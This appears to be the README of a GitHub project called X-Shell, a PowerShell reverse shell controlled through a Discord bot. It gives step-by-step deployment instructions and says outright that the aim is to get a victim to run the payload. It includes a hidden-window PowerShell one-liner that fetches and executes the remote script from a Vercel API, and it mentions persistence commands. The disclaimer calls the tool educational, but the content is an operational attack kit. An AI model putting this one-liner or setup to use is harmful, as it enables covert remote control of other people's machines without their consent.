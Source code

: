 ![](.src/banner.png)
# X-Shell

### This is a simple powershell script that establishes a connection to a Discord server using a Bot to listen on a specified channel. All messages from that channel will be executed on the machine (reverse Shell). I also added an API, which returns the script when provided with the correct Bearer Token, making it easy to deploy the Reverse Shell on the Victims Device.


## Usage

1. Use this template to create a Discord server https://discord.new/AFkzNqmAdmex
2. Write down the Ids of #chat, the Users category and the server
3. Create a discord bot https://discord.com/developers/applications, get its Id and add it to the server
4. Fork this repo, make it private and edit `index.js`:
   - Edit the token in line 27 to whatever you like
   - Adjust lines 32-35 to match your written down Ids and the Bot token
   - Create a Vercel account if you haven't already and deploy your private GitHub repo
5. Now that you've set up the API, simply get someone to execute this command, where you replace the vercel site with yours and the token following after "Bearer", with the one you set in step 4
   
```powershell -c "Start-Process -WindowStyle Hidden powershell -ArgumentList '-c iex ((irm -Uri ''https://xyz.vercel.app'' -Headers @{''Authorization''=''Bearer xxx''}))'"```

#### If you encounter any issues feel free to open an Issue

<hr>
If you wan the Remote connection to be persistent, you could run different commands, found in .src/commands.txt
<hr>
Even tho the API needs an authoriation Token, its still quite simple to fetch the powershell script and abuse the Discord Bot using the token. Ensure the api authorization token doesn't get wrong hands.
<hr>

## Disclaimer

This tool is for educational purposes only, and I do not assume any liability for any damages.
